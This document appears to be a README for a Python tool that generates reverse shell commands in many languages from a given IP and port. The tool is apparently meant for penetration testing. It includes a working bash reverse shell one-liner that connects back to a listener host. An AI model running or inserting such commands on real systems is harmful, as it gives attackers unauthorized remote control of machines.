 **Reverse Shell Script Generator**

This Python script generates reverse shell commands in various formats based on user input. The user specifies the desired type of reverse shell (e.g., bash, python, php, etc.), and the script generates the corresponding reverse shell command using the provided IP and port.

**Features:**

Supports multiple types of reverse shell commands: bash, socat, java, python, php, nc.exe, ruby, and perl.

Generates reverse shell commands with the correct format for each type.

Takes user input for the target IP address and port, and generates a custom reverse shell command.

**Requirements:**

Python 3.x

No external libraries are required.

**Usage:**

python script.py shell <host_ip> <host_port>

shell - Type of script you need

<host_ip> - your machine ip address

<host_port> - port to listen on

**Example:**

python3 script.py bash 192.168.1.100 4444

output:

/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1

**Other shell types that can be generated include:**

bash

socat

java

python

php

nc.exe

ruby

perl

go

elixir

lua

rust

haskell

d

swift

zsh

docker

vim

android

c

bash_timeout

openssl

tcl

c#
